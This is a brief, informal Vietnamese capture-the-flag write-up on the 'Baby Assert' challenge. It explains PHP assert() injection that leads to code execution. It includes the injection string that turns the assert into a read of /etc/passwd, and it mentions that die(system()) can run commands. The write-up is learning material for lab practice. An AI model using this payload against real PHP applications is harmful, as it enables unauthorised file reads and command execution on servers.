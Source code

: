 - tiêu đề : Baby Assert
- nội dung : RCE 

- bài này ae ngồi đọc lý thuyết về assert xíu là ngon 
- thì thường ngta dùng assert hay đi kèm vài hàm nữa kiểu : 
   assert("strpos('includes/$file.php,'..')===false)

- cái strpos là tránh path traversal 

- view qua cái web đã 

![Alt text](<../image/38.1.png>)

- vì đoán đoán cấu trúc rồi nên mình inject luôn :> 
-  'and die(show_source('/etc/passwd')) or '  -> câu lệnh sẽ thành : assert("strpos('includes'' and die(show_source('/etc/passwd')) or '.php,'..')===false)
- giải thích xíu nghĩa là nó include '' sau đó die(show_source()) và show cái etc/passwd hoặc là '.php' 

![Alt text](<../image/38.2.png>)

- thật ra tới bước này xong bí vch :> tìm thử mãi mấy file log xem include php dc không đuma 
- nhưng mình k biết rằng có thể die(system()) :>> mới mẻ thật 
 
![Alt text](<../image/38.3.png>)

- và pem vào 

![Alt text](<../image/38.4.png>)

- lụm cờ thhh 

#hackerga2101:
- mới mẻ die(system()) hehe